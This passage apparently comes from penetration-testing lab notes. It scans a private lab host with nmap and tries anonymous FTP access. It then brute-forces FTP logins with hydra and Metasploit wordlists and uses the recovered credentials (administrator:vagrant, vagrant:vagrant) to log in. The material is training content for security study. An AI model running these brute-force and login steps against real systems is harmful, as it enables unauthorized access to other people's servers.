 ```bash
nmap -sV -sC -p21,80 10.2.29.246

# FTP is part of the Microsoft IIS package 
```

- Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.2.29.246
```

![](.gitbook/assets/image-20230424111034331.png)

- **Brute-force** the FTP server

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.29.246 ftp

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.29.246 ftp -I
```

```bash
[21][ftp] host: 10.2.29.246   login: administrator   password: vagrant
[21][ftp] host: 10.2.29.246   login: vagrant   password: vagrant
```

![](.gitbook/assets/image-20230424111420412.png)

> 📌 2 FTP users:
>
> - `administrator`:`vagrant`
> - `vagrant`:`vagrant`

```bash
ftp 10.2.29.246
# Use administrator:vagrant
```
